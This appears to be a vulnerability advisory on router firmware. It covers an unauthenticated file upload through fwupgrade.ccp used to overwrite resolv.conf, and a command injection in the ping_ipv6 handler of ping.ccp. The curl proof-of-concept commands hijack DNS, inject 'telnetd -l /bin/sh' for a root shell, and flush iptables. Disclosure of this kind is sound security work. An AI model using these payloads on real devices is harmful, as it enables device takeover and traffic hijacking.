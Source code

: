 ### fwupgrade.ccp

The `ncc` / `ncc2` service on the affected devices allows for basic firmware and language file upgrades via the web interface. During the operation, a HTTP POST is submitted to a resource named `fwupgrade.ccp`.

The request appears to be executed by the `ncc` / `ncc2` service on the device, which runs as the root user.

Unfortunately, the filtering on this resource does not appear to be effective, as: file / MIME type filtering is not being performed; and the 'on-failure' redirection to the login page is being performed AFTER a file has already been written the the filesystem in full. 

As a result of the above, this resource can be used to upload files to the filesystem of devices running vulnerable versions of `ncc` / `ncc2` without authentication. This is also possible over the internet if WAN / remote management has been previously enabled on the device.

To compound the issue, at least in the case of the listed devices, files are written to a ramfs filesystem which is mounted at `/var/tmp`. Unfortunately, this mountpoint is also used to store volatile system configuration files, such as `resolv.conf`.

As a result, an attacker is able to hijack a user's DNS configuration without authentication:

```bash
# Overwrite the DNS resolver with Google DNS
echo 'nameserver 8.8.8.8' > resolv.conf

curl \
 -i http://192.168.0.1/fwupgrade.ccp \
 -F action=fwupgrade \
 -F filename=resolv.conf \
 -F file=@resolv.conf
```

###  ping.ccp

The `ncc` / `ncc2` service on the affected devices allow for basic 'ping' diagnostics to be performed via the `ping.ccp` resource. Unfortunately, it appears that strings passed to this call are not correctly sanitized.

Much in the same manner as above, requests are executed by the `ncc` / `ncc2` service on the device, which is run as the root user.

The handler for `ping_v4` does not appear to be vulnerable as this resource maps the components of a IPv4 address, represented by a dotted quad, into a format of `%u.%u.%u.%u` at execution time. However, `ping_ipv6` references the user provided input directly as a string (`%s`), which is then passed to a `system()` call. This formatting allows for an attacker to pass arbitrary commands to the device through a HTTP request.

As this resource is also able to be accessed without authentication, it provides a vector for an attacker to execute arbitrary commands on the device - including, but not limited to, DNS hijacking and WAN firewall disablement - via CSRF.

```bash
# Spawn a root shell (telnet)
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(telnetd -l /bin/sh)'

# Flush the iptables INPUT chain and set the default policy to ACCEPT.
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -P INPUT ACCEPT)'
curl \
 -i http://192.168.0.1/ping.ccp \
 --data 'ccp_act=ping_v6&ping_addr=$(iptables -F INPUT)'
```
